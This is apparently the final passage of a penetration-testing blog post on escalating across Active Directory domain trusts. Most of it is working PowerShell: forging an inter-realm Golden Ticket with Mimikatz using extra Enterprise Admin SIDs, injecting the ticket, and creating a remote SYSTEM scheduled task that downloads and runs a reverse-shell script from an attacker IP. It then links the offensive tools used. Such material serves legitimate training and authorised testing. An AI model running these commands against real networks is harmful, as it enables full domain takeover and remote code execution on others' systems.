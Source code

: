 ### <span style="color:#F1C232">2. Create the inter-realm TGT using a Golden Ticket</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<current-domain> /sid:<current-domain-SID> /sids:<target-domain-SID>-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\krbtgt_tkt.kirbi"'
```

### <span style="color:#F1C232">3. Now inject the ticket with Mimikatz</span>
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\krbtgt_tkt.kirbi"'
# Now we can also execute wmi commands
gwmi -Class win32_computersystem -ComputerName <target-domain-user-dc>
```

### <span style="color:#F1C232">4. Create a schedule to get a shell as NT AUTHORITY\SYSTEM</span>
```powershell
schtasks /create /S <target-domain-user-dc> /SC Weekly /RU "NT AUTHORITY\SYSTEM" /TN "pwned" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.x.x/Invoke-PowerShellTcp.ps1''')'"
schtasks /Run /S <target-domain-user-dc> /TN "pwned"
```

# <span style="color:lightblue">Tools Used</span>

1. Invoke-Mimikatz.ps1 download from here : [https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
2. asktgs_compiled download from here : [https://github.com/NotScortator/asktgs_compiled](https://github.com/NotScortator/asktgs_compiled)
2. Rubeus.exe download from here : [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
